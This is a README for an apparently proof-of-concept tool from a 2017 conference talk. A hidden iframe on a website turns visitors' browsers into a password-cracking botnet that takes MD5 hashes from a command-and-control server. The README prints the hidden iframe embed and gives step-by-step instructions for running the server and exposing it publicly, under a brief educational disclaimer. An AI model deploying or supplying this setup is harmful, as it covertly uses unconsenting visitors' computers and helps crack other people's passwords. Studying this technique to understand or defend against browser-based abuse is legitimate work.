

# Distributed Password Cracking

Borrow CPU cycles from visitor's web browsers to crack MD5 password hashes. Embedding a hidden `<iframe>` to a website will automatically add a visitor's browser as a node in a password cracking botnet. Their browser will received MD5 hashes and password candidates from a command-and-control server and report back any passwords it cracks for the duration of the time the visitor is browsing the "infected" website.



```html
<!-- add a single iframe embed to *your* website to add all visitors
     as nodes in the password cracking botnet -->
<iframe src="YOUR_WEBSITE.com:3000/embed" style="display:none">
```

This is proof-of-concept code for the [Browser as Botnet talk](http://radicalnetworks.org/participants/brannon-dorsey) ([video](https://livestream.com/internetsociety/radnets17/videos/164720367)) at [Radical Networks 2017](http://radicalnetworks.org/). As such, it **is not** optimized. There are far [more efficient ways](https://github.com/brannondorsey/naive-hashcat) to crack passwords if that is your goal. This project is intended to illustrate how compute jobs can be massively distributed across browsers.

**DISCLAIMER: This software is for educational purposes only. This software should not be used for illegal activity. The author is not responsible for its use. Don't be a dick.**

## Getting Started

```bash
# clone this repo
git clone https://github.com/brannondorsey/distributed-password-cracking
cd distributed-password-cracking

# install the dependencies
npm install

# run the command-and-control server
node server.js
```

Navigate to http://localhost:3000 to view the **unprotected** "admin" panel. This microsite allows you to view the activity of your botnet in real-time. To test that your password cracking network is working, open another browser tab to http://localhost:3000/embed. This creates a browser cracking node and launches one web worker per CPU on your machine. You should now see a connected node on the admin panel.

The server distributes password candidates and MD5 hashes to browser clients continuously as they connect. It uses:

- [`data/passwords.txt`](data/passwords.txt): The first 100,000 passwords from the [Rockyou](https://wiki.skullsecurity.org/Passwords) password dictionary
- [`data/hashes.txt`](data/hashes.txt): The `example0.hash` MD5 hashes distributed with [Hashcat](https://hashcat.net/hashcat/)

Cracked passwords are saved to `data/cracked.txt` like so:

```
5f4dcc3b5aa765d61d8327deb882cf99:password
```

Replace `passwords.txt` and `hashes.txt` to use your own password dictionary and MD5 hashes.

### Embedding the `<iframe>`

Once your server is running adding nodes is as easy as including an iframe in your website. For this to work, your node server has to be publicly accessible from the web. That means setting up port forwarding/ssh tunnels or renting a VPS (on AWS or the like) without a firewall on port 3000. Add the below iframe to whatever web page you would like visitors to crack passwords from:

```html
<iframe src="YOUR_WEBSITE.com:3000/embed" style="display:none">
```
**Note**: The node `server.js` enables CORs by default, but if you are proxying the connection (via Nginx, etc...) you may need to enable CORs on that proxy server as well.

## Future Features

- WebAssembly MD5 hashing. I'm close to this but ran out of time ahead of the talk. I'm reaching near native speeds in my tests, bringing hashrates on my machine from ~700K a second to 5M, nearly an order of magnitude speedup!
- CPU throttling settings

## License and Attribution

This software is released under an MIT license. You are free to use, modify, distribute, and sell it under those terms.
